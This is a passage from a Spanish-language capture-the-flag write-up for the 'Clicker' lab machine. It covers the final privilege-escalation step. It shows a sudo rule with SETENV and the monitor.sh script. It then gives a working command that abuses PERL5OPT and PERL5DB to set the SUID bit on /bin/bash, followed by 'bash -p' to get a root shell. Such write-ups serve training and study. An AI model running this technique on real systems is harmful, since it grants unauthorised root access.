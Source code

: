 ```ruby
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```
Codigo:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```
Este script parece hacer un tipo diagnostico y lo guarda en el archivo  **/root/diagnostic_files/diagnostic...**, sin embargo, podemos ver que hace uso de variables de entorno de perl (PERL5LIB, PERLLIB), en este caso usa **unset** para eliminar esas variables de entorno en tiempo de ejecucion. Tomando en cuenta el uso de variables de entorno de perl y el uso de **/usr/bin/xml_pp** (otro script de perl), nosotros podemos abusar de las variables de entorno de perl para ejecutar comandos, mas en particular de **PERL5DB** y **PERL5OPT**, esta vulnerabilidad se le conoce como **perl_startup**

Para explotarla podemos ingresar:

```perl
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

- PERL5OPT=-d: se establece la variable de entorno **PERLOPT5** con el argumento -d, que significa modo de depuracion,
- Posteriormente se establece la variable de entorno **PERL5DB** con el valor de **exec** para ejecutar el comando que sigue

Basicamente lo que estara haciendo es ejecutar el script **monitor.sh** en modo de depuracion, y tomando en cuenta que podemos establecer variables de entorno, usamos **PERL5OPT** y **PERL5DB**  para ejecutar un comando arbitrario a la hora de depurar el script

Ahora solo queda ejecutar **bash -p** y seremos root

![](/assets/img/clicker/12.png)

Eso ha sido todo, gracias por leer ❤
